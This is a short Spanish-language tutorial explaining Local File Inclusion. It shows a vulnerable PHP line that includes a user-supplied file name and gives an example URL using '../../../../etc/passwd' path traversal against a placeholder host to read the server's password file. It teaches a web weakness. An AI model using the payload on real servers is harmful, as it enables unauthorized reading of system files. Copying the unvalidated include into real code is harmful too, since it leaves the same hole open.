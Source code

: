 Local File Inclusion es una vulnerabilidad web que ocurre cuando una aplicación permite al usuario controlar el nombre de un archivo que será cargado o incluido por el servidor. Si no se valida correctamente, un atacante puede leer archivos locales del servidor.

##### ¿Dónde se da?

Suele aparecer en páginas PHP o similares, donde se usa algo como:

```
<?php include($_GET['page']); ?>
```

Si la pagina tiene page= en la mayoria de los casos se puede probar un LFI

```
http://victima.com/index.php?page=home.php
```

#### LFI:

```
http://victima.com/index.php?page=../../../../etc/passwd
```

Y el servidor no valida el input, termina haciendo:

```
include('../../../../etc/passwd');
```

Y esto nos termina mostrando el contenido del archivo /etc/passwd



